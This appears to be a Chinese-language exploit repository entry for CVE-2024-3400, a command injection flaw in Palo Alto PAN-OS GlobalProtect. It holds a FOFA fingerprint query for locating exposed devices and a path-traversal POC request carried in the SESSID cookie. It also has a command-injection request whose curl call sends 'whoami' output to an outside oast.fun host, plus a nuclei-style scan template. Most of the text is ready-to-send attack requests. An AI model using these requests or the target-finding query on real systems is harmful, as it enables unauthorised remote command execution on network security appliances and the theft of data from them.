 ## PAN-OS安全设备存在命令执行漏洞(CVE-2024-3400)

PAN-OS安全设备是PaloAlto公司的一款VPN设备，其使管理者无论位于何处都能够通过将下一代安全平台扩展到所有用户保护网络安全。它通过应用平台的功能来了解应用程序的使用情况。它将流量与用户和设备相关联并通过下一代技术实施安全策略来保护流量。其GlobalProtect功能的login.esp接口的Cookie存在未授权远程命令执行漏洞，攻击者可通过该漏洞控制设备。

## fofa
```
icon_hash="-631559155"
```


## poc
```
POST /ssl-vpn/hipreport.esp HTTP/1.1
Host: 127.0.0.1
Cookie: SESSID=/../../../var/appweb/sslvpndocs/global-protect/portal/images/hellome1337.txt;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image](https://github.com/wy876/POC/assets/139549762/d94dec78-deb5-440c-9883-99ec1d954ebe)

## Command Injection
```
POST /ssl-vpn/hipreport.esp HTTP/1.1
Host: 127.0.01
Cookie: SESSID=./../../../opt/panlogs/tmp/device_telemetry/minute/h4`curl${IFS}xxxxxxxxxxxxxxxxx.oast.fun?test=$(whoami)`;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

## CVE-2024-3400.yaml
```
id: palo-alto-networks-pan-os-command-injection
info:
  name: Palo Alto Networks PAN-OS Command Injection Vulnerability
  author: generated with pdteam AI
  severity: Critical

http:
  - method: POST
    path:
      - "{{BaseURL}}/ssl-vpn/hipreport.esp"
    headers:
      Cookie: "SESSID=/../../../var/appweb/sslvpndocs/global-protect/portal/images/poc.txt;"
      Connection: "close"
      Content-Type: "application/x-www-form-urlencoded"
      Content-Length: "0"
    matchers:
      - type: status
        status:
          - 200

  - method: GET
    path:
      - "{{BaseURL}}/global-protect/portal/images/poc.txt"
    matchers:
      - type: status
        status:
          - 403
```

## 漏洞来源
- https://github.com/h4x0r-dz/CVE-2024-3400
